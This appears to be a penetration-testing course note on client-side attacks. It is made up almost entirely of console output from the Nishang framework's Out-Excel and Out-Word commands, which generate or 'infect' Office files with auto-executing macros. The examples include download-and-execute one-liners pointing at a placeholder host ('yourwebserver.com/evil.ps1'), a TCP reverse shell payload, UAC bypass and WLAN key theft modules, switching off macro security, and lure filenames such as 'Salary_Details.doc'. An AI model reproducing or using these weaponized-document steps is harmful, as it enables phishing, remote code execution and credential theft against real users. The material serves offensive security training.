


#### 46. Client Side Attacks Part 1

###### Client Side Attacks

- Malicious/Weaponized Attachments
    - Out-Word
    - Out-Excel
  
```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Import-Module .\nishang.psm1
WARNING: The names of some imported commands from the module 'nishang' include unapproved verbs that might make them less discoverable. To find the commands with unapproved verbs, run the Import-Module
command again with the Verbose parameter. For a list of approved verbs, type Get-Verb.
WARNING: Some imported command names contain one or more of the following restricted characters: # , ( ) {{ }} [ ] & - / \ $ ^ ; : " ' < > | ? @ ` * % + = ~
PS C:\Users\Administrator\Desktop\nishang-master>
```

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Get-Help Out-Excel -Examples

NAME
    Out-Excel

SYNOPSIS
    Nishang Script which can generate and "infect" existing excel files with an auto executable macro.

    -------------------------- EXAMPLE 1 --------------------------

    PS >Out-Excel -Payload "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c Get-Process" -RemainSafe


    Use above command to provide your own payload to be executed from macro. A file named "Salary_Details.doc" would be generated
    in the current directory.


    -------------------------- EXAMPLE 2 --------------------------

    PS >Out-Excel -PayloadScript C:\nishang\Shells\Invoke-PowerShellTcpOneLine.ps1


    Use above when you want to use a PowerShell script as the payload. Note that if the script expects any parameter passed to it,
    you must pass the parameters in the script itself. A file named "Salary_Details.doc" would be generated in the
    current directory with the script used as encoded payload.


    -------------------------- EXAMPLE 3 --------------------------

    PS >Out-Excel -PayloadURL http://yourwebserver.com/evil.ps1


    Use above when you want to use the default payload, which is a powershell download and execute one-liner. A file
    named "Salary_Details.doc" would be generated  in the current directory.


    -------------------------- EXAMPLE 4 --------------------------

    PS >Out-Excel -PayloadURL http://yourwebserver.com/evil.ps1 -Arguments Evil


    Use above when you want to use the default payload, which is a powershell download and execute one-liner.
    The Arugment parameter allows to pass arguments to the downloaded script.


    -------------------------- EXAMPLE 5 --------------------------

    PS >Out-Excel -PayloadURL http://yourwebserver.com/Powerpreter.psm1 -Arguments "Invoke-PsUACMe;Get-WLAN-Keys"


    Use above for multiple payloads. The idea is to use a script or module as payload which loads multiple functions.


    -------------------------- EXAMPLE 6 --------------------------

    PS >Out-Excel -PayloadURL http://yourwebserver.com/evil.ps1 -OutputFile C:\docfiles\Generated.doc


    In above, the output file would be saved to the given path.


    -------------------------- EXAMPLE 7 --------------------------

    PS >Out-Excel -PayloadURL http://yourwebserver.com/evil.ps1 -ExcelFileDir C:\docfiles\


    In above, in the C:\docfiles directory, macro enabled .doc files would be created for all the .docx files, with the same name
    and same Last MOdified Time.


    -------------------------- EXAMPLE 8 --------------------------

    PS >Out-Excel -PayloadURL http://yourwebserver.com/evil.ps1 -ExcelFileDir C:\docfiles\ -Recurse


    The above command would search recursively for .docx files in C:\docfiles.


    -------------------------- EXAMPLE 9 --------------------------

    PS >Out-Excel -PayloadURL http://yourwebserver.com/evil.ps1 -ExcelFileDir C:\docfiles\ -Recurse -RemoveDocx


    The above command would search recursively for .docx files in C:\docfiles, generate macro enabled .doc files and
    delete the original files.


    -------------------------- EXAMPLE 10 --------------------------

    PS >Out-Excel -PayloadScript C:\nishang\Shells\Invoke-PowerShellTcpOneLine.ps1 -RemainSafe


    Out-Excel turns off Macro Security. Use -RemainSafe to turn it back on.


PS C:\Users\Administrator\Desktop\nishang-master>
```

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Out-Excel "powershell.exe -noexit -c Get-Service"
Saved to file C:\Users\Administrator\Desktop\nishang-master\Salary_Details.xls
0
PS C:\Users\Administrator\Desktop\nishang-master>
```

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> ls .\Salary_Details.xls


    Directory: C:\Users\Administrator\Desktop\nishang-master


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         7/17/2017   1:30 PM      29184 Salary_Details.xls


PS C:\Users\Administrator\Desktop\nishang-master>
```



View &rightarrow; Macros &rightarrow; View Macros &rightarrow; Auto Open &rightarrow; Edit



```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Get-Help Out-Word -Examples

NAME
    Out-Word

SYNOPSIS
    Nishang Script which can generate as well as "infect" existing word files with an auto executable macro.

    -------------------------- EXAMPLE 1 --------------------------

    PS >Out-Word -Payload "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c Get-Process" -RemainSafe


    Use above command to provide your own payload to be executed from macro. A file named "Salary_Details.doc" would be generated
    in the current directory.


    -------------------------- EXAMPLE 2 --------------------------

    PS >Out-Word -PayloadScript C:\nishang\Shells\Invoke-PowerShellTcpOneLine.ps1


    Use above when you want to use a PowerShell script as the payload. Note that if the script expects any parameter passed to it,
    you must pass the parameters in the script itself. A file named "Salary_Details.doc" would be generated in the
    current directory with the script used as encoded payload.


    -------------------------- EXAMPLE 3 --------------------------

    PS >Out-Word -PayloadURL http://yourwebserver.com/evil.ps1


    Use above when you want to use the default payload, which is a powershell download and execute one-liner. A file
    named "Salary_Details.doc" would be generated  in the current directory.


    -------------------------- EXAMPLE 4 --------------------------

    PS >Out-Word -PayloadURL http://yourwebserver.com/evil.ps1 -Arguments Evil


    Use above when you want to use the default payload, which is a powershell download and execute one-liner.
    The Arugment parameter allows to pass arguments to the downloaded script.


    -------------------------- EXAMPLE 5 --------------------------

    PS >Out-Word -PayloadURL http://yourwebserver.com/Powerpreter.psm1 -Arguments "Invoke-PsUACMe;Get-WLAN-Keys"


    Use above for multiple payloads. The idea is to use a script or module as payload which loads multiple functions.


    -------------------------- EXAMPLE 6 --------------------------

    PS >Out-Word -PayloadURL http://yourwebserver.com/evil.ps1 -OutputFile C:\docfiles\Generated.doc


    In above, the output file would be saved to the given path.


    -------------------------- EXAMPLE 7 --------------------------

    PS >Out-Word -PayloadURL http://yourwebserver.com/evil.ps1 -WordFileDir C:\docfiles\


    In above, in the C:\docfiles directory, macro enabled .doc files would be created for all the .docx files, with the same name
    and same Last MOdified Time.


    -------------------------- EXAMPLE 8 --------------------------

    PS >Out-Word -PayloadURL http://yourwebserver.com/evil.ps1 -WordFileDir C:\docfiles\ -Recurse


    The above command would search recursively for .docx files in C:\docfiles.


    -------------------------- EXAMPLE 9 --------------------------

    PS >Out-Word -PayloadURL http://yourwebserver.com/evil.ps1 -WordFileDir C:\docfiles\ -Recurse -RemoveDocx


    The above command would search recursively for .docx files in C:\docfiles, generate macro enabled .doc files and
    delete the original files.


    -------------------------- EXAMPLE 10 --------------------------

    PS >Out-Word -PayloadScript C:\nishang\Shells\Invoke-PowerShellTcpOneLine.ps1 -RemainSafe


    Out-Word turns off Macro Security. Use -RemainSafe to turn it back on.


PS C:\Users\Administrator\Desktop\nishang-master>
```